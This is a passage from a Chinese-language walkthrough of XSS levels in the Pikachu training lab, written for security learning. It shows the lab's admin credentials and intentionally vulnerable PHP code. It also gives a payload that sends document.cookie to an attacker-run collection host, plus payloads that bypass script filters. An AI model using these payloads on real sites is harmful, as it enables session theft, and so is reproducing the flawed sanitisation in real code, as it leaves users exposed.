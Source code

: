 - 后台: http://<IP地址!!!>/pikachu/vul/xss/xssblind/admin_login.php
- 账号密码: admin 123456

到 pikachu 平台下管理工具,进去初始化平台

盗 cookie payload `<script>document.location = 'http://<xss平台地址>/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/12.png)

### xss之过滤

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

这里注释写的很清楚了,不多说了

**漏洞利用**

过滤了 `<script` ,还有很多的标签可以用,再说还有很多绕过方法

- payload: `<marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

- payload: `<ScrIpT>alert('老铁,欧里给!')</sCriPt>`

### xss之htmlspecialchars

**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入点啥吧!</p>";
    }else {
        //使用了htmlspecialchars进行处理,是不是就没问题了呢,htmlspecialchars默认不对'处理
        $message=htmlspecialchars($_GET['message']);
        $html1.="<p class='notice'>你的输入已经被记录:</p>";
        //输入的内容被处理后输出到了input标签的value属性里面,试试:' onclick='alert(111)'
//        $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block;background-color:#c0c0c0;border-style:none;'/>";
        $html2.="<a href='{$message}'>{$message}</a>";
    }
}
```
